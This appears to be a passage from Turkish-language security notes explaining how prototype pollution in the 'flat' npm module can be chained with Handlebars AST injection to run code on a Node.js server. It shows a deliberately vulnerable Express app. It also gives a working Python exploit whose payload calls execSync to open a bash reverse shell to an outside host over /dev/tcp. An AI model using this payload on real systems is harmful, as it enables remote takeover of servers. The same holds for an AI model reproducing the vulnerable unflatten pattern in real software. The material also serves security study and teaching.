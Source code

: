 ```
```

Sonuç olarak, bir saldırı şu şekilde yapılandırılabilir. Parser'dan geçtiyseniz, NumberLiteral'ın değerine atanamayacak bir string belirtin. Ancak Injected AST işlendiğinde, fonksiyona herhangi bir kod ekleyebiliriz.

### Example

```
const express = require('express');
const { unflatten } = require('flat');
const bodyParser = require('body-parser');
const Handlebars  = require('handlebars');
 
const app = express();
app.use(bodyParser.json())

app.get('/', function (req, res) {
    var source = "<h1>It works!</h1>";
    var template = Handlebars.compile(source);
    res.end(template({}));
});

app.post('/vulnerable', function (req, res) {
    let object = unflatten(req.body);
    res.json(object);
});
 
app.listen(3000);


```

Prototype pollution güvenlik açığına sahip flat modül kullanarak güvenlik açığı olan bir sunucuyu yapılandırma örneği.

![Pasted image 20250129201552.png](/img/user/resimler/Pasted%20image%2020250129201552.png)

Flat, haftada 4.61 milyon indirme ile popüler bir modüldür ve bildirilen Prototype pollution güvenlik açığı için yama henüz yapılmamıştır.

https://github.com/hughsk/flat/issues/105

```
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

```